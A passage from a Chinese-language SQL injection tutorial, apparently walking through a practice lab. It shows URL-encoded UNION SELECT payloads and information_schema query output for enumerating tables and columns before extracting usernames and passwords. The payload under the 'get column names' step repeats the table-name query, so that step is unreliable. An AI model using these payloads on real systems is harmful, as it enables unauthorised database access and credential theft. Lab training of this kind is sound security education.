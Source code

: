    ![](/32.png)

   `?id=%27 union select 1,group_concat(table_name) ,3  from information_schema.tables where table_schema='security' %23`

   ![](/33.png)

4. 获取列名

   在information_schema中，columns表中记录所有数据库所有表的列名,table_schema栏记录是所属的数据库，table_name记录数据库包含的表名，column_name,记录的是列名

   ```
   mysql> select * from columns where table_name='users' and table_schema='security'
       -> ;
   +---------------+--------------+------------+-------------+------------------+----------------+-------------+-----------+--------------------------+------------------------+-------------------+---------------+--------------------+--------------------+-------------------+-------------+------------+----------------+---------------------------------+----------------+-----------------------+
   | TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | ORDINAL_POSITION | COLUMN_DEFAULT | IS_NULLABLE | DATA_TYPE | CHARACTER_MAXIMUM_LENGTH | CHARACTER_OCTET_LENGTH | NUMERIC_PRECISION | NUMERIC_SCALE | DATETIME_PRECISION | CHARACTER_SET_NAME | COLLATION_NAME    | COLUMN_TYPE | COLUMN_KEY | EXTRA          | PRIVILEGES                      | COLUMN_COMMENT | GENERATION_EXPRESSION |
   +---------------+--------------+------------+-------------+------------------+----------------+-------------+-----------+--------------------------+------------------------+-------------------+---------------+--------------------+--------------------+-------------------+-------------+------------+----------------+---------------------------------+----------------+-----------------------+
   | def           | security     | users      | id          |                1 | NULL           | NO          | int       |                     NULL |                   NULL |                10 |             0 |               NULL | NULL               | NULL              | int(3)      | PRI        | auto_increment | select,insert,update,references |                |                       |
   | def           | security     | users      | username    |                2 | NULL           | NO          | varchar   |                       20 |                     20 |              NULL |          NULL |               NULL | latin1             | latin1_swedish_ci | varchar(20) |            |                | select,insert,update,references |                |                       |
   | def           | security     | users      | password    |                3 | NULL           | NO          | varchar   |                       20 |                     20 |              NULL |          NULL |               NULL | latin1             | latin1_swedish_ci | varchar(20) |            |                | select,insert,update,references |                |                       |
   +---------------+--------------+------------+-------------+------------------+----------------+-------------+-----------+--------------------------+------------------------+-------------------+---------------+--------------------+--------------------+-------------------+-------------+------------+----------------+---------------------------------+----------------+-----------------------+
   3 rows in set (0.00 sec)
   ```

   `?id=%27 union select 1,group_concat(table_name) ,3  from information_schema.tables where table_schema='security' %23`

   ![](/34.png)

5. 获取内容

   获取users表的username和password
